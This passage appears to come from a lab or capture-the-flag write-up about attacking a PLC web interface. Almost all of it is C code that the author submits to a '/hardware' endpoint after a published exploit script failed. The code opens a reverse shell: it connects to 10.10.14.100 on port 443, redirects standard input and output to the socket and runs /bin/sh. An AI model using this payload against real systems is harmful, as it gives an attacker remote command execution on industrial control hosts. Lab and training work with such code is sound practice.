 The script on the packetstorm repository didn't work to me so I extracted the C code it submits to /hardware and replaced rev_port and rev_ip with mine:

```c
#include "ladder.h"
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>


//-----------------------------------------------------------------------------

//-----------------------------------------------------------------------------
int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

//-----------------------------------------------------------------------------

//-----------------------------------------------------------------------------
void initCustomLayer()
{
   
    
    
}


void updateCustomIn()
{

}


void updateCustomOut()
{
    int port = 443;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.100");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;
}
```
